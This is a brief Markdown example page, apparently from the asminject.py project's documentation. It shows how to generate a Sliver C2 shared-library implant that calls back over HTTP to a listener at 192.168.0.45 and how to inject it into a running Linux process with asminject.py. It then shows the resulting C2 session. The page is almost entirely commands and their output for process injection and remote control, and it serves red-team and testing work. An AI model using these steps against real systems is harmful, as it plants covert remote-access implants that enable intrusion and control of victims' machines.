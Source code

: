 # asminject.py examples - Sliver
Examples related to [Bishop Fox's Sliver C2 framework](https://github.com/BishopFox/sliver)

* [Create and launch a Sliver shared library implant](#create-and-launch-a-sliver-shared-library-implant)

## Create and launch a Sliver shared library implant

Generate a Sliver implant binary for Linux using the shared library format, with the option to run at load enabled:

```
[server] sliver > generate --skip-symbols --http 192.168.0.45 --os linux --format shared --run-at-load

[*] Generating new linux/amd64 implant binary
[!] Symbol obfuscation is disabled
[*] Build completed in 00:00:15
[*] Implant saved to /home/user/IMPORTANT_STRANGER.so
```

Inject the `dlinject_threaded.s` payload into the target process, e.g.:

```
# python3 ./asminject.py 93421 dlinject_threaded.s --arch x86-64 \
    --relative-offsets-from-binaries --stop-method "slow" \
	--var librarypath "/home/user/IMPORTANT_STRANGER.so"
```

Observe the session:

```
[*] Session 8a470c38 IMPORTANT_STRANGER - 192.168.0.45:35804 (kali) - linux/amd64 - Tue, 05 Jul 2022 16:59:10 PDT
```
